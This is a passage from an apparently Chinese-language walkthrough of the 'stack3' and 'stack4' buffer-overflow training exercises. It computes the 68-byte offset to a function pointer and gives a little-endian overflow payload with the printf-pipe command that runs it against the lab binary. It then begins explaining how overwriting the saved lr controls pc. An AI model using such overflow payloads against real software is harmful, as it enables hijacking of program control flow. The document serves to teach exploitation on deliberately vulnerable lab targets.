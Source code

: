 可见就是要覆盖上图中的0x31313131，17*4的数据最后4个就是覆盖函数调用的地址。

![](/media/15123036349068.jpg)

覆盖为00 01 04 7c即可，由于小端，输入如下：

```
1111111111111111111111111111111111111111111111111111111111111111|\x04\x01\x00
```

最终需要这样：

```
printf '1111111111111111111111111111111111111111111111111111111111111111|\x04\x01\x00' | ./stack3
```

![](/media/15123481953215.jpg)


# 题目 Stack4

![](/media/15123520903550.jpg)

要覆盖pc，就是要覆盖最后的栈中存储lr的位置。
